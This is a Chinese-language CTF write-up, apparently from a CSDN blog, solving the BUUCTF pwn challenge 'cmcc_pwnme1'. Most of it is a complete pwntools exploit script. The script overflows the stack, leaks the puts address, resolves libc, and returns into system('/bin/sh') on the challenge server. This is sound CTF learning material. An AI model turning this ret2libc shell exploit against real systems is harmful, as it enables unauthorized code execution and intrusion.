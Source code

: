 <!--yml
category: 未分类
date: 2022-04-26 14:50:48
-->

# buuctf[cmcc_pwnme1]题解_N1ch0l4s的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_46521144/article/details/115257212](https://blog.csdn.net/weixin_46521144/article/details/115257212)

拿到题目，发现getflag函数和简单栈溢出

![](img/3c4063ed12ba94e8bf8ebe2a55776f3c.png)

![](img/15552dba1a2d0bbf58a4f0a6a10d9dc8.png)

高兴的尝试了一波，然而发现home目录下没有flag,倒是也正常，没有简单到这种程度

看一下保护

![](img/c0ae6fae17c92ca53f01a572954e2be3.png)

没有开，那也很简单，直接利用栈溢出，ret2libc即可

使用LibcSearcher直接搜索,这题就当是熟练手感了

```
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level='debug'
# io=process('./pwnme1')
io=remote('node3.buuoj.cn',26669)
elf=ELF('./pwnme1')

getflag=0x08048677
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
start=0x08048570
main=0x080486F4

# io.recvuntil('>> 6\. Exit    \n')
# io.sendline('5')
# payload='a'*(164+4)+p32(getflag)
# io.sendlineafter('name of fruit:',payload)

io.recvuntil('>> 6\. Exit    \n')
io.sendline('5')
payload='a'*(164+4)+p32(puts_plt)+p32(main)+p32(puts_got)
io.sendlineafter('name of fruit:',payload)
io.recvuntil('...\n')
puts_addr=u32(io.recv(4))

print "puts_addr----->"+hex(puts_addr)
libc=LibcSearcher('puts',puts_addr)
system=libc.dump('system')
puts_libc=libc.dump('puts')
libc_base=puts_addr-puts_libc
print "libc_base----->"+hex(libc_base)
binsh=libc.dump("str_bin_sh")+libc_base
system_addr=system+libc_base

io.sendline('5')
payload2='a'*(164+4)+p32(system_addr)+p32(0)+p32(binsh)
io.sendlineafter('name of fruit:',payload2)

io.interactive()
```

注释的地方是一开始尝试栈溢出到getflag没有成功的做法

最后成功拿到flag,不想再开一边端口了，总之他变红了 ；）

![](img/78e338d5e605c037f97f68999d40867a.png)